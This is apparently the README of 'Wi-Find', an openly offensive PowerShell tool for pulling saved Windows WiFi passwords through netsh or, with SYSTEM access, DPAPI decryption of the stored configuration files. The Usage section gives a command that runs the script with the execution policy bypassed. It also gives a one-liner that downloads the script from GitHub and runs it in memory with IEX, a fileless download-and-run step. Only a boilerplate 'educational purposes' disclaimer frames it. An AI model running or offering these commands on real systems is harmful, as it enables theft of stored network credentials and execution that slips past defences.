 # Wi-Find
Wi-Find is a quick WiFi enumeration script that aims to pull saved WiFi passwords. It initially attempts to do this by invoking netsh commands. However, if a network interface is not available and you have NT AUTHORITY\SYSTEM access, then you read Window's WiFi configuration files by leveraging the UnProtect method and accessing DPAPI.

# Usage

Download Repo
```
git clone https://github.com/Har6ard/Wi-Find.git
cd Wi-Find
cmd > powershell -ExecutionPolicy bypass wiFind.ps1
```
Execute in Memory
```powershell
powershell "IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/Har6ard/Wi-Find/refs/heads/main/wiFind.ps1')"
```
# Disclaimer
This or previous program is for Educational purpose ONLY. Do not use it without permission. The usual disclaimer applies, especially the fact that me (Har6ard) is not liable for any damages caused by direct or indirect use of the information or functionality provided by these programs. The author or any Internet provider bears NO responsibility for content or misuse of these programs or any derivatives thereof. By using these programs you accept the fact that any damage (dataloss, system crash, system compromise, etc.) caused by the use of these programs is not Har6ard's responsibility.
